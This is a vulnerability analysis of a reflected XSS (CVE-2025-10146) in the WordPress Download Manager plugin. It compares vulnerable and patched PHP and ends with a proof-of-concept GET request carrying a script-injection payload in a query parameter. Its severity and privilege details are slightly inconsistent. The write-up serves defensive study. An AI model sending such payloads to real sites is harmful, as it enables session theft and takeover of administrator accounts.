 # CVE-2025-10146 Analysis & POC


A vulnerability exists in the **Download Manager** plugin prior to version **3.3.24**. Data retrieved from **GET** requests is printed directly into **HTML attributes**, leading to **reflected XSS** when a user with privileges accesses a URL crafted by an attacker.

* **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
* **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.3.23
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Download Manager**: v3.3.23(vulnerable) and v3.3.24(fixed)
* **diff tool**: **meld** or any tool capable of comparing differences between two versions

---

## Analysis

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions. A significant difference appears in **src/Admin/views/stats/history.php**.

**Vulnerable code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

The **GET parameters** are directly assigned to the `<a>` element's **href** without any protection, creating a risk of **reflected XSS**.

**Patched code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

![Patch Diff](patch_diff.png "Patch Diff: sanitized GET parameters and escaped URL")

The patch **sanitizes** the **GET parameters** using `sanitize_array` and uses `esc_url` to **escape the URL**, making it safe.

### How It Works

We need to identify the real URL to inject GET parameters containing the XSS payload.

**src/Admin/views/stats/history.php** contains PHP and HTML tags inside the **views** folder, indicating it is included somewhere in the plugin.

Searching for `history.php` in the plugin directory:

![Search 1](search1.png "Search results for history.php")

👉 No direct matches are found. It is likely included dynamically like `{$file_name}.php`. Using regex `\{.*\}\.php`:

![Regex](regex.png "Regex search for dynamic includes")

**src/Admin/views/stats/history.php** is included in **src/Admin/views/stats.php**.

The actual URL to access is declared at the top of **stats.php**:

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Similarly, **stats.php** is also included elsewhere, but it’s not necessary to trace further since the URL is identified.

To verify, we set a **breakpoint** in **src/Admin/views/stats/history.php**, start debugging, and access the URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```

![Debug](debug.png "Breakpoint debugging to observe GET params")

First, the plugin collects all **GET parameters** into `$get_params`.

If `$user_ids` is not empty, a **“Clear filter” button** is created. To make the button functional, it must generate a URL without the `user_ids` parameter:

```php
$get_params_xu = $get_params;        // copy all GET parameters
unset($get_params_xu['user_ids']);   // remove user_ids from array
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // generate new URL
```

* `unset($get_params_xu['user_ids'])` removes the filter.
* `add_query_arg($get_params_xu, 'edit.php')` generates the URL with remaining parameters.

This URL is attached to the “Clear filter” button:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Result:** Clicking the button reloads the page without the `user_ids` filter.

---

## Exploit

### Detect XSS

Send a GET request containing the XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

The `"></a>` closes the `<a>` tag, followed by a `<script>` to trigger `alert()`.

![XSS](xss.png "Reflected XSS triggered via GET parameter")

👉 XSS succeeds. When a user with privileges accesses the attacker-provided URL, **reflected XSS** occurs, simulating an **Unauthenticated attack** scenario.

---

## Conclusion

The vulnerability **CVE-2025-10146** in **WordPress Download Manager <= 3.3.23** is a **reflected XSS**, occurring when **GET request** data is printed directly into an **HTML attribute** without sanitization or escaping. Privileged users accessing the attacker-crafted URL may be exploited.

The patch in **3.3.24**:

1. **Sanitizes GET parameters** (`sanitize_array`) to remove dangerous characters.
2. **Escapes URL** (`esc_url`) before rendering in HTML to prevent XSS.

**Key takeaways**:

* Always **sanitize and escape user input** before rendering in HTML.
* Check **user permissions** before processing or displaying sensitive data.
* Low-privilege roles (like contributor) can become attack vectors if the plugin does not enforce proper protections.
* Updating plugins regularly is a simple and effective defense.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability)

---

